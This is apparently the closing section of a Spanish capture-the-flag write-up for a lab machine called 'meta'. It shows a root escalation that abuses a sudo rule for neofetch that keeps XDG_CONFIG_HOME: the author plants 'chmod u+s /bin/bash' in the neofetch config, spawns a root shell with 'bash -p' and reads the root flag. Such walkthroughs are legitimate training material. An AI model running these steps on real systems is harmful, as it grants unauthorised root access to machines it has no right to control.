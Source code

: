 Si nos figamos bien cuando hicimos sudo -l tenemos lo siguiente:
``` 
thomas@meta:~/.config/neofetch$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```
Ese env_keep=XDG_CONFIG_HOME indica algo, el env_keep permite mantener las variables de entorno del usuario, si actualizamos la variable XDG_CONFIG_HOME a la ruta donde tengo mi config del neofetch igual funciona.
```
thomas@meta:~/.config/neofetch$ export XDG_CONFIG_HOME=/home/thomas/.config/neofetch/
thomas@meta:~/.config/neofetch$ echo $XDG_CONFIG_HOME
/home/thomas/.config/
```
El config.conf se resetea así que posiblemente se haya borrado la línea que escribiste, tendrás que volver a escribirla; `chmod u+s /bin/bash`.
```
thomas@meta:~/.config/neofetch$ sudo neofetch
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 15 hours, 10 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: AMD EPYC 7302P 16- (2) @ 2.994GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 147MiB / 1994MiB 
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

thomas@meta:~/.config/neofetch$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```
¡¡¡Y nos dio el SUID!!
```
thomas@meta:~/.config/neofetch$ bash -p
bash-5.0# id
uid=1000(thomas) gid=1000(thomas) euid=0(root) groups=1000(thomas)
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
7e6e421afbde39df1be2c******
```
Ha estado chula la máquina, he aprendido cosas y disfrutado haciéndola.





